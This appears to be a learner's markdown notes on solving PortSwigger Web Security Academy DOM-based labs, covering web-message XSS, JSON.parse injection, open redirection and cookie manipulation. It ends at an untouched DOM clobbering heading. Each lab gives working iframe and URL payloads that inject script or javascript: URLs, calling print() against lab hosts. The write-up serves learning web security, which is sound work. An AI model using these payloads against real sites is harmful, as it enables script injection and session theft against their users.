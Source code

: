 ### Lab: DOM XSS using web messages
Explanation:
Let's say we have our own html page.
On our page we have:
```bash
<script>
    window.addEventListener('message', function(e) {
        console.log(e.data);
    })
</script>
```
And some kind of a button, that when clicked it executes the following code:
```bash
window.postMessage("hello world")
```
So whenever that button is clicked it consoles log "hello world"

So even though `window.postMessage` can be used cross site, it can also be used on the same site.

Definition from MDN: The window.postMessage() method safely enables cross-origin communication between Window objects; e.g., between a page and a pop-up that it spawned, or between a page and an iframe embedded within it.

#### Exploiting the lab:
On the main page we have:
```bash
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```
And we have:
```bash
<div id='ads'>
```
Which means whatever we are going to pass to window.postMessage(), is going to be injected (via `innerHtml = e.data`) onto the page.

So we create a new page on the server that we control and we paste the following:
```bash
<iframe src="https://0a9c008e037b9aae80e021720045005f.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
That iframe will load vulnerable website inside the iframe and `onload` will execute `contentWindow.postMessage('<img src=1 onerror=print()>','*')`, and therefore `print()` is going to be executed.

All that is needed is for user to visit our page from the server that we control.

### Lab: DOM XSS using web messages and a JavaScript URL
This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function. 

We have:
```bash
window.addEventListener('message', function(e) {
    var url = e.data;
    if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
        location.href = url;
    }
}, false);
```

Solution:
```bash
<iframe src="https://0a51008103b44997808c125400d50058.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

### Lab: DOM XSS using web messages and JSON.parse
We have:
```bash
window.addEventListener('message', function(e) {
    var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
    document.body.appendChild(iframe);
    try {
        d = JSON.parse(e.data);
    } catch(e) {
        return;
    }
    switch(d.type) {
        case "page-load":
            ACMEplayer.element.scrollIntoView();
            break;
        case "load-channel":
            ACMEplayer.element.src = d.url;
            break;
        case "player-height-changed":
            ACMEplayer.element.style.width = d.width + "px";
            ACMEplayer.element.style.height = d.height + "px";
            break;
    }
}, false);
```

So I tried:
```bash
<iframe src="https://0a27005803cfe64980103a0a00ba007e.web-security-academy.net/" onload="this.contentWindow.postMessage('{"type": "load-channel", "url": "javascript:print()"}','*')">
```
It didn't work. Because " sign terminated the string that is opened after `onload` earlier. 

Here's the solution:
```bash
<iframe src=https://0a27005803cfe64980103a0a00ba007e.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

### Lab: DOM-based open redirection
The page has:
```bash
 <a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : "/"'>Back to Blog</a>
```

`location` object contains the value from the browser url bar as one of its properties.

To solve the lab we need to redirect a user (when they click on Back to Blog btn) to the exploit server. For that purpose we need to modify the url in the following way:
```bash
https://0ac400ec04f118e280002b5b00db00fa.web-security-academy.net/post?postId=10&url=https://exploit-0a7100f70445184f80b82a2701920042.exploit-server.net/exploit
```
And the lab is solved


### Lab: DOM-based cookie manipulation
We have products and whenever we click on some product, the page with that product description is opened. It contains the following:
```bash
<script>
    document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```
That website has a button: "Last viewed product":
```bash
<a href="https://0a7900b10398d71489664b8c000600c2.web-security-academy.net/product?productId=3">Last viewed product</a>
```
The value that is placed in `<a href="...">` is taken from the `lastViewedProduct` cookie.

We can therefore try to escape `<a>` tag and append `<script>` after it:
```
https://0a7900b10398d71489664b8c000600c2.web-security-academy.net/product?productId=2&'><script>print()</script>
```
As a result the value of cookie becomes:
```
https://0a7900b10398d71489664b8c000600c2.web-security-academy.net/product?productId=2&%27%3E%3Cscript%3Eprint()%3C/script%3E
```
After that when we go to the Home page here's what we find there:
```
<a href='https://0a7900b10398d71489664b8c000600c2.web-security-academy.net/product?productId=2&'><script>print()</script>'>Last viewed product</a><p>|</p>
```
As you can see we have successfully escaped `<a>` tag.

The problem is that we still have to go to 2 different pages. First to a specific product page and later to the Home page. Iframe can help us with that.

Here's the lab solution:
```bash
<iframe src="https://0a7900b10398d71489664b8c000600c2.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
```
So when it is first loaded it sets the value of the cookie with malicious js.
Then `onload` event is triggered and the victim is redirected to Home page. On the home page the value from malicious cookie is taken and js code is executed.

Note we need this `window.x=1` and of course `if(!window.x)` because we don't want `onload` to stuck in a loop. We only want it to be executed once.


### Lab: Exploiting DOM clobbering to enable XSS


